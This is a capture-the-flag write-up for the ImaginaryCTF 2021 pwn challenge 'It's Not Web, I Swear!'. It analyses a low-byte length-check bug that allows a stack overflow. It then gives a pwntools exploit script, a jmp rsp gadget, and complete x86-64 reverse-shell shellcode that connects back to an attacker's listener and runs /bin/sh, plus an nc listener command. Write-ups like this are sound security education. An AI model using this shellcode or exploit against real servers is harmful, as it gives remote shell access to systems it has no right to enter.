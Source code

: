 # ImaginaryCTF 2021: It's Not Web, I Swear!

![date](https://img.shields.io/badge/date-27.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![pwn category](https://img.shields.io/badge/category-pwn-lightgrey.svg) ![score](https://img.shields.io/badge/score-450-blue.svg) ![solves](https://img.shields.io/badge/solves-17-brightgreen.svg)

## Description

In the spirit of DEFCON, I present you with this challenge that is not a web challenge! Go forth and pwn this notweb challenge

## Attached files
- [server](https://imaginaryctf.org/r/0AEB-server)

## Summary
To acquire the flag we had to find buffer overflow to override return pointer of a function to jump into our shellcode. However when our code is being executed we would already have been disconnected from the server, therefor we needed to reestablish the connection.

## Flag
``` ictf{all_pwn_and_no_web_makes_elliot_a_dull_boy} ```

## Detailed solution
After calling using **checksec** on challenge's binary we discover that there are no security features added by compiler, it even has executable stack
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
We can now look how the server works internally, in the **main** function, just after port passed as program argument gets verified, **startServer** is called. Then the program falls into **accept** loop. For each client connected to the server a new process is created to handle the communication.

In **respond** function firstly program checks if the request starts with ```GET /```
```
   0x4011b8 <respond+235>    mov    rsi, rdx
   0x4011bb <respond+238>    mov    rdi, rax
 ► 0x4011be <respond+241>    call   strstr@plt <strstr@plt>
        haystack: 0x604700 ◂— 'GET / HTTP/1.1\n'
        needle: 0x4017f8 ◂— 0x2f20544547 /* 'GET /' */
   0x4011c3 <respond+246>    cmp    qword ptr [rbp - 0x40], rax
   0x4011c7 <respond+250>    jne    respond+455 <respond+455>
```
our request has to pass that test in order to get to vulnerable path checking.

Then the program searches for ```<space>HTTP``` character sequence and number of characters between the end of ```GET /``` and the start of ```<space>HTTP``` is calculated. That number will be referred to as path length.

It is important to note that path length is stored as 32-bit variable
```
   0x401253 <respond+390>    sub    rdx, rax
   0x401256 <respond+393>    mov    rax, rdx
   0x401259 <respond+396>    mov    dword ptr [rbp - 0x54], eax
   0x40125c <respond+399>    mov    eax, dword ptr [rbp - 0x54]
```
Just after being calculated it is passed to **check_len** function, which returns **true** if length is below 100 and **false** if it is longer ... or ... wait!

```
   0x401067 <check_len+4>     mov    eax, edi
   0x401069 <check_len+6>     mov    byte ptr [rbp - 4], al
   0x40106c <check_len+9>     cmp    byte ptr [rbp - 4], 0x63
   0x401070 <check_len+13>    setbe  al
   0x401073 <check_len+16>    movzx  eax, al
```
it only checks if the least significant bit has value less than 100 ! They have even put it in another function to make it harder to spot!

When the function returns true, our path is copied onto the stack using full 32-bit path length. 
```
   0x40126d <respond+416>    mov    eax, dword ptr [rbp - 0x54]
   0x401270 <respond+419>    movsxd rdx, eax
   0x401273 <respond+422>    mov    rcx, qword ptr [rbp - 0x50]
   0x401277 <respond+426>    lea    rax, [rbp - 0xe0]
   0x40127e <respond+433>    mov    rsi, rcx
   0x401281 <respond+436>    mov    rdi, rax
   0x401284 <respond+439>    call   memcpy@plt <memcpy@plt>
```
There are ``0xe0`` bytes to get to the end of stack frame, then we have **main**'s function ``rbp`` which we can safely corrupt, and then there is return pointer.

However we have to check if there are any local variables that after getting corrupted would result in process crash. 
```
   0x401510 <respond+1091>    mov    rax, qword ptr [rbp - 0x40]
   0x401514 <respond+1095>    mov    rdi, rax
   0x401517 <respond+1098>    call   free@plt <free@plt>
```

There is only one such variable which is a pointer to the buffer that our message was **recv**'ed to. It is getting **free**'d just before return instruction, and never used elsewhere, so we can just zero it out.

We will create simple python script to help us sending data to the server
```
#!/bin/python

from pwn import *

import os

if len(sys.argv) > 1:
    io = remote('localhost', int(sys.argv[1]))
else:
    io = remote('not-web.chal.imaginaryctf.org', 42042)

padding_len = 0x100 - (240 & 0xff)

io.sendline(
        b'GET /' +
        b'A' * 160 +
        b'\x00\x00\x00\x00\x00\x00\x00\x00' +
        b'A' * 0x40 +
        b'BBBBBBBB' +
        b'D' * padding_len +
        b' HTTP'
)
```
We also need to add some padding to our path to make the lower bits of path length be 0

As expected the program crashes when trying to return to address ``0x4242...``
``` 
► 0x40158c <respond+1215>    ret    <0x4242424242424242>
```

Now we need to find address to return to, conveniently author of the challenge kindly left us useful ROP gadget at the end of **startServer** function
```
   0x40105e <startServer+375>    jmp    rsp
```
Stack pointer would now point right after the return pointer which in last example we have set to B's after modifying our script we can just put our shellcode there.
```
...
JMP_RSP = 0x40105e

os.system('nasm shellcode.asm')

shellcode = open('shellcode', 'rb').read()
payload_len = 240 + len(shellcode)
padding_len = 0x100 - (payload_len & 0xff)
...
        b'A' * 0x40 +
        p64(JMP_RSP) +
        shellcode +
        b'D' * padding_len +
...
```

Unfortunately at this point the server has already shut the connection with us down
```
   0x40152b <respond+1118>    mov    esi, 1
   0x401530 <respond+1123>    mov    edi, 1
   0x401535 <respond+1128>    call   shutdown@plt <shutdown@plt>
   0x40153a <respond+1133>    mov    edi, 1
   0x40153f <respond+1138>    call   close@plt <close@plt>
```
Therefor we have to reestablish connection to us. 
```
[bits 64]
start:
	mov rax, 41		; socket
	mov rdi, 2		; AF_INET
	mov rsi, 1		; SOCK_STREAM
	xor rdx, rdx
	syscall

	mov r14, rax		; we need to save socket fd

	mov rdi, rax
	mov rax, 42		; connect
	lea rsi, [rel server]
	mov rdx, 16
	syscall

				; using dup2 syscalls we can redirect
				; all standard streams to our socket fd
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 0
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 1
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 2
	syscall

	mov rax, 59		; execve
	lea rdi, [rel sh]	; now we can execute bash
	lea rsi, [rel zero]
	lea rdx, [rel zero]
	syscall

zero:	dq 0
sh:	db "/bin/sh", 0
server:	db 0x02,0x00,0x05,0x39, 127,   0,   0,   1,0xa0,0x50,0x55,0x55,0x55,0x55,0x00,0x00
;                    PORT      IP ADDRESS
```

Note that port ( 1337 in this example ) needs to be in **big endian** order
Now we can just start netcat server on specified port and check the result locally
```
nc -lp 1337
```
After our shellcode gets executed we will have shell in our netcat window
The only thing that is left to do is to put public ip into our code, make sure that the port is correctly forwarded, and send our exploit to challenge's server
